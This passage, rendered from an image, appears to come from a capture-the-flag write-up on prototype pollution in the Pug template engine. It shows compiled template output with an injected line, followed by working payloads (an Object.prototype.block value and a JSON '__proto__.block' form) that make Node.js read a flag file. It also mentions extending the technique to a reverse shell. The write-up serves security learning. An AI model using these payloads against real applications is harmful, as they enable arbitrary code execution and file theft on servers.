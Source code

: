 ```
pug_html = pug_html + "Hello ";
;pug_debug_line = 1;
pug_html = pug_html + (pug.escape(null == (pug_interp = user) ? "" : pug_interp));
;pug_debug_line = console.log('hello there!');
pug_html = pug_html + "ndefine";
;pug_debug_line = 1;
pug_html = pug_html + ", thank you for letting us know!\u003C\u002Fspan\u003E";
    }.call(this, "console" in locals_for_with ?
        locals_for_with.console :
        typeof console !== 'undefined' ? console : undefined, "user" in locals_for_with ?
        locals_for_with.user :
        typeof user !== 'undefined' ? user : undefined));
    ;} catch (err) {pug.rethrow(err, pug_debug_filename, pug_debug_line);};return pug_html;}
    
    
    
And there we go! We have our inject console.log line there and it will be executed whenever this template function is called. We can put our RCE payload there and get a reverse shell in node.js applications!

Here we'll try to directly read the flag using the following:

global.process.mainModule.require('fs').readFileSync('flag', 'utf8');

The complete payload looks like this:

Object.prototype.block = {"type": "Text", "line": "1; pug_html = pug_html + '[[flag ='+ global.process.mainModule.require('fs').readFileSync('flag', 'utf8')+']]'"};

Or, if you're sending the payload from a script in the form of JSON, then the payload should be:

 "__proto__.block": {
        "type": "Text", 
        "line": "1; pug_html = pug_html + '[[flag ='+ global.process.mainModule.require('fs').readFileSync('flag', 'utf8')+']]'"
    }


And you can get the flag in the UI!

```



